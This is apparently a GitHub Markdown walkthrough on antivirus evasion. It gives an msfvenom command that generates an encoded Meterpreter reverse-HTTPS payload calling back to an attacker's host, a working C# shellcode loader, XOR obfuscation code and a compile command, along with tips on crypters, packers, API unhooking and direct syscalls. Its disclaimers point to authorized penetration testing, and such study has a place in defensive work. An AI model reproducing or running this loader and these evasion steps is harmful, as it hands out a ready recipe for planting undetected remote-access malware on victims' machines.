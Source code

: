 
# 🛡️ AV Evasion: Shellcode Execution Walkthrough

> **Disclaimer**: This guide is for **educational and ethical penetration testing** only. Do not use against systems without **explicit authorization**.

---

## 🎯 Goal

Bypass antivirus (AV) detection using custom shellcode execution techniques (e.g., reverse shell or Meterpreter payload).

---

## 🧰 Tools Required

- `msfvenom` (Metasploit)
- Programming language: `C#`, `C`, or `C++`
- Optional tools:
  - `PEzor`, `Shellter`
  - `.NET` obfuscators: `ConfuserEx`, `Dotfuscator`
  - `Donut` (shellcode generator)
- Windows API knowledge: `VirtualAlloc`, `CreateThread`, etc.

---

## 🧪 Step-by-Step Walkthrough

### 1. Generate Shellcode

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f csharp -e x64/xor_dynamic -i 5
```

- `-p`: Payload
- `-f csharp`: C# format
- `-e x64/xor_dynamic`: Encoder for evasion
- `-i 5`: Encoding iterations

---

### 2. Write a C# Shellcode Loader

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
        IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("msvcrt.dll")]
    static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);

    static void Main(string[] args)
    {
        byte[] shellcode = new byte[] { /* msfvenom shellcode */ };

        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x1000 | 0x2000, 0x40);
        memcpy(addr, shellcode, (uint)shellcode.Length);
        CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        System.Threading.Thread.Sleep(-1);
    }
}
```

---

### 3. Obfuscate Shellcode

- Use **XOR encoding**, e.g.:

```csharp
for (int i = 0; i < shellcode.Length; i++)
    shellcode[i] ^= 0xAA; // XOR key
```

- Base64-encode and decode at runtime to avoid static signature detection.

---

### 4. Compile Executable

```bash
csc.exe /platform:x64 /unsafe /out:loader.exe loader.cs
```

---

### 5. Obfuscate the Binary

- Use obfuscators:
  - `ConfuserEx`, `Dotfuscator`, `SmartAssembly`
- Use crypters/packers:
  - `PEzor`, `Shellter`

---

### 6. Test Against Antivirus

Recommended sandboxes:
- [Hybrid Analysis](https://www.hybrid-analysis.com/)
- [Any.Run](https://any.run/)
- Avoid VirusTotal with sensitive payloads.

---

## 💡 Advanced AV Evasion Techniques

| Technique               | Effectiveness |
|------------------------|---------------|
| XOR encoding           | Medium        |
| Custom shellcode stage | High          |
| API unhooking          | Very High     |
| Direct syscalls        | Very High     |
| C/C++ native loaders   | Very High     |

---

## ✅ Tips

- Avoid known API names and static signatures.
- Use `VirtualAlloc`, `NtCreateThreadEx`, `QueueUserAPC`, etc.
- Use syscalls instead of WinAPI to evade user-mode hooks.
- Encrypt or split the shellcode to avoid detection.

---

## ⚠️ Legal Notice

Use only in:
- Personal labs
- CTFs
- Environments with **explicit written consent**

**Unauthorized use is illegal.**

---
